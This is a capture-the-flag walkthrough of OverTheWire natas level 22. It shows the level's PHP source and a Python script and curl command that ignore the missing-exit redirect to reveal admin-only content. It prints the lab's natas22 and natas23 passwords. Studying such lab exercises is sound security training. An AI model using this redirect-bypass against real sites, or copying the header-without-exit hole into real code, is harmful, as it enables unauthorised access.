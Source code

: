 ```yaml
---
title: natas 22 walkthrough
description: over the wire natas 22
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-22 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 22 walkthrough
    order: 30
---
```

## Description
> Username: natas22
> 
> URL:      http://natas22.natas.labs.overthewire.org

### Source Code
```php
<?php
session_start();

if (array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if (!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
        header("Location: /");
    }
}
?>

<?php
if (array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
}
?>
```

---
## Progress
### Observation
`revelio` is needed to be added into query while we send a get request. After that, one should get the content below.
### Trial
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas22"
password = "91awVM9oDiUGm33JdzM7RVLBS8bz9n0s"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas22.natas.labs.overthewire.org/" 
    payload = "?revelio=3" 
    response = requests.get(main_url+payload, auth=authentication)
    if "You are an admin" in get_content(response):
        print(get_content(response))
    else:
        print("failed")

main()
```
I was wrong. I always get status code 200 and an empty page, while I can get the status code 302 (redirection) via chrome. Does python request automatically redirect?
```bash
$ curl --header 'Authorization: Basic bmF0YXMyMjo5MWF3Vk05b0RpVUdtMzNKZHpNN1JWTEJTOGJ6OW4wcw==' --request GET http://natas22.natas.labs.overthewire.org/\?revelio\=3`
```
qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj

Well, it seems I guess correctly. The auto redirection can be turned off by setting the argument to false.
```python
response = requests.get(main_url+payload, auth=authentication, allow_redirects=False)
```

---
## Hint

---
## Solving
### Category
- 
### Techniques
- 
### Tools
- 